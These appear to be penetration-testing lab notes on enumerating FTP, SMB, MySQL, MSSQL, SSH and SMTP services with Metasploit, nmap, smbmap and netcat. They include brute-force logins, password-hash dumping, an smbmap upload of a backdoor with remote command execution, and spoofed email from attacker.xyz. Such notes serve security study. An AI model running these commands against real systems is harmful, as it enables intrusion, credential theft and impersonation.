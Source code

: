 # Service Enumeration


- Network Service Discovery. <https://attack.mitre.org/techniques/T1046/>










## FTP

auxiliary/scanner/ftp/ftp_version

auxiliary/scanner/ftp/anonymous

auxiliary/scanner/ftp/ftp_login # brute force
	set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
	set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt











## SMB
auxiliary/scanner/smb/smb_version
auxiliary/scanner/smb/smb_enumusers
auxiliary/scanner/smb/smb_enumshares
auxiliary/scanner/smb/smb_login # brute force

auxiliary/scanner/smb/pipe_auditor



`smbmap` - SMB enumeration tool

```
smbmap -u guest -p "" -d . -H [TARGET]

smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET]

smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] -L

smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] -r [DRIVE]
smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] -r 'C$'

smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] --upload '[LOCAL FILE]' '[DEST]'
smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] --upload '/root/backdoor' 'C$\backdoor'

smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] --download '[REMOTE FILE]'
smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] --download  'C$\backdoor'


smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] -x [COMMAND]
smbmap -u [USERNAME] -p [PASSWORD] -d . -H [TARGET] -x 'ipconfig'


```














## MySQL
auxiliary/scanner/mysql/mysql_version
auxiliary/scanner/mysql/mysql_login # brute force
	try root first: set USERNAME root


auxiliary/admin/mysql/mysql_enum # requires credentials!

auxiliary/admin/mysql/mysql_sql
	set SQL [SQL QUERY];
	


auxiliary/scanner/mysql/mysql_schemadump
auxiliary/scanner/mysql/mysql_hashdump



```
use auxiliary/scanner/mysql/mysql_file_enum
set USERNAME root
set PASSWORD twinkle
set RHOSTS 192.76.252.3
set FILE_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
set VERBOSE true
run
```


```
use auxiliary/scanner/mysql/mysql_writable_dirs
set RHOSTS 192.76.252.3
set USERNAME root
set PASSWORD twinkle
set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt
run
```




Just try log as `root`: `mysql -h [TARGET] -u root`
`nmap [IP] -sV -p 3306 --script=mysql-empty-password`

### nmap
```
nmap [IP] -sV -p 3306 --script=mysql-info

nmap [IP] -sV -p 3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"
nmap [IP] -sV -p 3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"
nmap [IP] -sV -p 3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"
nmap [IP] -sV -p 3306 --script=mysql-dump-hashes --script-args="username='root',password=''"


nmap [IP] -sV -p 3306 --script=mysql-query --script-args="query='select count(*) from books.authors;',username='root',password=''"




# audit
# This is good to run for developers to check wheter they have configured things correctly
nmap [IP] -sV -p 3306 --script=mysql-audit --script-args="mysql-audit.user='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"


```











## MSSQL / Microsot SQL Server


auxiliary/scanner/mssql/mssql_login
auxiliary/admin/mssql/mssql_enum
auxiliary/admin/mssql/mssql_enum_sql_logins
auxiliary/admin/mssql/mssql_exec


nmap [IP] -p 1433 --script ms-sql-info
nmap [IP] -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433
nmap [IP] -p 1433 --script ms-sql-brute --script-args userdb=/[path to file],passdb=[path to pass file]

















## SSH
auxiliary/scanner/ssh/ssh_version
auxiliary/scanner/ssh/ssh_login # brute force
auxiliary/scanner/ssh/ssh_enumusers # super useful!

```
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.245.211.3
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/common_passwords.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```


### Get ssh banner with `nc`
`nc [IP] 22`


### Nmap
```
# Enumerate algorithms
nmap [IP] -p22 --script ssh2-enum-algos

# SSH Keys
nmap [IP] -p22 --script ssh-hostkey --script-args ssh_hostkey=full


nmap [IP] -p22 --script ssh-auth-methods --script-args="ssh.user=[USERNAME]"

```













## SMTP
auxiliary/scanner/smtp/smtp_version
auxiliary/scanner/smtp/smtp_enum # user enumeration


```
# What is the SMTP server name and banner
nmap -sV -script banner [IP]

# 1 Connect to SMTP service using netcat and retrieve the hostname of the server (domain name)
nc [IP] 25

# 2 Does user “admin” exist on the server machine?
VRFY admin@[DOMAIN]

# What commands can be used to check the supported commands/capabilities? Connect to SMTP service using telnet and check

telnet [IP]
HELO attacker.xyz
EHLO attacker.xyz



# How many of the common usernames present in the dictionary /usr/share/commix/src/txt/usernames.txt exist on the server. Use smtp-user-enum tool for this task
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t [IP]


# How many common usernames present in the dictionary /usr/share/metasploit-framework/data/wordlists/unix_users.txt exist on the server. Use suitable metasploit module for this task

use auxiliary/scanner/smtp/smtp_enum
set RHOSTS [IP]
exploit

```



### Connect to SMTP service using telnet and send a fake mail to root user
(Note: There is a dot(.) in the last line which indicates the termination of data)

```
telnet [IP] 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to:root@openmailbox.xyz
data
Subject: Hi Root
Hello,
This is a fake mail sent using telnet command.
From,
Admin
.
```


### Send a fake mail to root user using sendemail command
```
sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s 192.26.29.3 -u Fakemail -m "Hi root, a fake from admin" -o tls=no


```


See:
- Postfix (http://www.postfix.org/)
- smtp-user-enum (https://tools.kali.org/information-gathering/smtp-user-enum)
- sendmail (http://www.postfix.org/sendmail.1.html)
- Metasploit Module: SMTP User Enumeration Utility https://www.rapid7.com/db/modules/auxiliary/scanner/smtp/smtp_enum



















